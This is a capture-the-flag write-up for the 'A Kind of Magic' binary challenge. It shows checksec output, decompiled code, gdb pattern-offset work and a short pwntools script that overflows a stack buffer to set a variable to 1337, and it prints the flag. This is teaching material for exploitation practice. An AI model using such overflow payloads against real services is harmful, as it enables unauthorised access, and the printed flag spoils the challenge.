

# A Kind of Magic

by ZeroDayTea

You're a magic man aren't you? Well can you show me? nc 143.198.184.186 5000

## Challenge

In this challenge we were given an ELF-64bit named `akindofmagic` with no canary, NX enabled, and PIE is also enabled.

```
$ file akindofmagic; checksec akindofmagic 
akindofmagic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2529d1bf8b4d4717af0728e24730b6a407050d9,
for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/akindofmagic'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's try to run it

```
$ ./akindofmagic                          
Is this a kind of magic? What is your magic?: 
chicken nugget
You entered chicken nugget

Your magic is: 0
You need to challenge the doors of time
```

It seems that the program will print our input and there is `Your magic is: 0` which obviously kinda odd. Let's open the program using ida to see what the source code looks like.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v7; // [rsp-38h] [rbp-38h]
  unsigned int v8; // [rsp-Ch] [rbp-Ch]
  __int64 v9; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v9 = v3;
  v8 = 0;
  sub_1090("Is this a kind of magic? What is your magic?: ", argv, envp);
  sub_10D0(_bss_start);
  sub_10C0(&v7, 64LL, stdin);
  sub_10B0("You entered %s\n", &v7);
  v4 = v8;
  sub_10B0("Your magic is: %d\n", v8);
  sub_10D0(_bss_start);
  if ( v8 == 1337 )
  {
    sub_1090("Whoa we got a magic man here!", v4, v5);
    sub_10D0(_bss_start);
    sub_10A0("cat flag.txt");
  }
  else
  {
    sub_1090("You need to challenge the doors of time", v4, v5);
    sub_10D0(_bss_start);
  }
  return 0;
}
```

From the main function, it seems that we need to overflow the input and change the `v8` variable. Since the program will also print the value inside the `v8` variable, we could check if our overflow is reaching v8 or not.

First, we could use gdb to create a pattern.
```
$ gdb -q ./akindofmagic
Reading symbols from ./akindofmagic...
(No debugging symbols found in ./akindofmagic)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/akindofmagic 
Is this a kind of magic? What is your magic?: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
You entered AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AA
Your magic is: 1094796865
You need to challenge the doors of time

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the `v8` variable.
```
gdb-peda$ pattern offset 1094796865
1094796865 found at offset: 44
```

Nice, we got the offset/padding. Now we need to make the `v8` variable turns into 1337 in integer or 0x539 in hexadecimal.
```python
from pwn import *

padding = 44 # offset from the input to variable v8
hexNum = 0x539 # the value that we need to overwrite to v8

host = "143.198.184.186"
port = 5000

s = connect(host, port)

# receiving the first line of the program output
print(s.recvline())

# generating the payload
payload = b""
payload += b"A"*padding
payload += p64(hexNum)

# send the payload to the program
s.sendline(payload)

# receiving the rest of the program output
print(s.recvall())

s.close()
```

Now all we need to do is just run the program


Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
